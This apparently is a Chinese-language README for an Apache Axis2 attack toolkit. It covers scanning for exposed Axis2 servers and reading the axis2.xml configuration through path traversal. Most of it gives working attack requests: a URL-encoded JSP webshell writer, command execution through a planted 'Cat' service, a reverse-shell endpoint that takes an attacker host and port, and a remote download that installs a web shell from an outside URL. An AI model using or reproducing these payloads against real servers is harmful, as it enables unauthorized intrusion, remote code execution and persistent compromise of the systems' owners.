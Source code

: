 #Apache axis2内部信息泄漏
/axis2/axis2-web/HappyAxis.jsp 
/axis2/services/Version?xsd=../conf/axis2.xml （有事密码不正确的时候可以看看这里有木有文件包含漏洞）

#1.Scan AXIS2 目录里
是扫描ip及端口的、利用s扫描器、这里S扫描器就自己找吧，免得说有后门！ips.txt就是扫描出来的结果

#2.Asix2.py （需要下载Requests模块 python 2.7环境） 
使用方法$python axis2.py url.txt   （把上面ips.txt 结果放入url.txt中）
存在AXIS2会写在Success.txt里

#3.shell目录
使用方法：
第一个是写入shell或是写入文件，写入shell在网站不能连接外网时候 上传小马 
1<%if(request.getParameter("f")!=null)(new java.io.FileOutputStream(application.getRealPath("/")+request.getParameter("f"))).write(request.getParameter("t").getBytes());%><a href="One_OK"></a>1 
进行url编码
/axis2/services/Cat/writeStringToFile?data=test %31%3c%25%69%66%28%72%65%71%75%65%73%74%2e%67%65%74%50%61%72%61%6d%65%74%65%72%28%22%66%22%29%21%3d%6e%75%6c%6c%29%28%6e%65%77%20%6a%61%76%61%2e%69%6f%2e%46%69%6c%65%4f%75%74%70%75%74%53%74%72%65%61%6d%28%61%70%70%6c%69%63%61%74%69%6f%6e%2e%67%65%74%52%65%61%6c%50%61%74%68%28%22%2f%22%29%2b%72%65%71%75%65%73%74%2e%67%65%74%50%61%72%61%6d%65%74%65%72%28%22%66%22%29%29%29%2e%77%72%69%74%65%28%72%65%71%75%65%73%74%2e%67%65%74%50%61%72%61%6d%65%74%65%72%28%22%74%22%29%2e%67%65%74%42%79%74%65%73%28%29%29%3b%25%3e%3c%61%20%68%72%65%66%3d%22%4f%6e%65%5f%4f%4b%22%3e%3c%2f%61%3e%31 text&file=网站物理路径&encoding=utf-8&append=false

第二个是获取路径 (getClassPath)
/axis2/services/Cat/getClassPath

第三个是执行命令
/axis2/services/Cat/exec?cmd=whoami

第四个是反弹shell
/axis2/services/Cat/shell?host=*.*.*.*&port=12345

第五个远程写shell、config aar (Web.txt 为shell代码)
/axis2/services/config/download?url=http://url.com/web.txt&path=D:/plat_resin-pro-3.2.1/webapps/axis2/web.jsp

